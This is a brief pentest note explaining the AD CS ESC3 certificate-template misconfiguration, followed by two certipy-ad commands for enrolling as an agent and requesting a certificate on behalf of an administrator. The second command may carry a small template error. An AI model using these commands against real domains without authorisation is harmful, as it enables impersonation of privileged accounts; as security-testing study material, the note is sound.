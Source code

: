 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview

An ESC3 vulnerable template permits the issuance of certificates on behalf of any user, enabling the potential impersonation of other users. This vulnerability arises because the template includes the Certificate Request Agent EKU. Specifically, the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) grants the ability to request certificates on behalf of other principals.

To exploit this misconfiguration, the Certificate Authority (CA) must have at least two templates that meet the following conditions:

1. The template allows a low-privileged user to enroll in an enrollment agent certificate.
2. The Approval Manager is disabled.
3. Authorized signatures are not required.
4. The certificate template defines the Certificate Request Agent EKU, enabling the request of other certificate templates on behalf of other principals.

# Abusing ESC3 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'  -on-behalf-of 'Megacorpone\Xadmin' -pfx 'xadmin.pfx'


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
